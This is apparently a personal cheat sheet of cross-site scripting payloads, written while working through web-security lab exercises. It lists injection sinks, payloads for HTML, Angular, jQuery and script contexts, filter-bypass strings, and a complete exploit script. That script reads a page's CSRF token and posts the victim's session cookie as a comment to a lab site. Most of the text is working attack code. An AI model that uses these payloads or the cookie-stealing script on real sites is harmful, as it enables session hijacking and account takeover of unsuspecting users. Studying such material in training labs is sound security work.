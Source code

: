 **use DOM-invader**
## Sinks
* `document.write`
* jQuery's `attr()` funciton, Example
```js
$("img").attr("src", "example.com")
```


## HTML - Context

### href
`javascript:alert(1)` 

### rel="canonical"
Triggers XSS on `ALT+SHIFT+X`
```
<link rel="canonical" href=... accesskey="x" onclick="alert(1)">
```

## Angular

* If `ng-app` is enabled -> XSS withot angle brackets
```
{{$on.constructor('alert(1)')()}}
```

### JQuery
*popular* `$(window).on('hashchange'`
-> trigger hashchange on attacker server
```js
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

### Tricks
Use animate to set href attribute:
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

* Use `&` in payload - get parameter and whole parameter might be parsed differently
* `onerror=alert;throw 1`
* `&apos;` -> Substitute for `'` (the `;` is part of the element!)


#### Bypass `'` and `"` filter with `&apos`

## `<script>` Context
1. Terminate Existing script `</script><img src=...`
2. Bypass filters
```
5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```
### template literal 
```
`${alert(1)}`
```

# Exploits
Steal cookie and post as comment
```html
<!-- type module to allow await -->
<script type="module">
// Grab CSRF
const csrf = document.querySelector('[name="csrf"]').value;
const url = "https://0ab0009604f562a28107b12700a90002.web-security-academy.net/post/comment"
const response = await fetch(url, {
    method: "POST",
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: new URLSearchParams(
        {
            csrf:csrf,
            postId:9,
            comment:"my session cookie is:" + document.cookie,
            name:"c",
            email:"a@a",
            website:"http://"
        }

    ).toString()
}).then(()=>console.log("Success!"));
</script>
```
## Troubleshooting Exploits
* Check on different browser
